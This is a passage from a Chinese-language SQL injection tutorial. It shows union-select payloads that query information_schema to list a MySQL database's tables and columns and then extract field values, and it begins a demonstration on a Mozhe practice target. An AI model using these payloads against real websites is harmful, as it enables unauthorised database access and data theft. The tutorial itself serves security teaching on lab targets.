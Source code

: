 ##### 在系统自带数据库information_schema中爆表名和字段名

###### **利用 union select 联合查询information_schema.tables，获取表名**

**即查询名为当前数据库(上述database()已经查到)的数据库下，有哪些数据表，得到当前数据库的所有表名**

```sql
?id=-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='已知库名'
```

###### **利用 union select 联合查询information_schema.columns，获取列名(字段名)**

**即查询名为已知表名的数据表中，有哪些列(字段)，得到当前数据库的这张表中的所有列名**

```sql
?id=-1'union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='已知表名'
```

_**至此，我们已经能知道当前数据库的所有表名以及所有数据表的所有列名，对于一个基本查询语句`SELECT 列名1,列名2 FROM 表名`而言，已经具备了基本条件。**_

#### 第5步：查询指定数据

**利用 union select 联合查询上述查到的表名，获取列值(字段值)**

```sql
?id=-1' union select 1,列名1,列名2,4 from 已知表名
```



# 涉及案例

## 简易代码分析SQL注入原理

(见上)

## sqlilabs注入靶场搭建简要使用

(见上)

## 墨者靶机真实MySQL注入演示

靶机地址：https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe

### 第1步：判断是否存在注入点

?id=1

![](https://img.yatjay.top/md/202203251631407.png)

?id=1fjaioghiajkasdlg
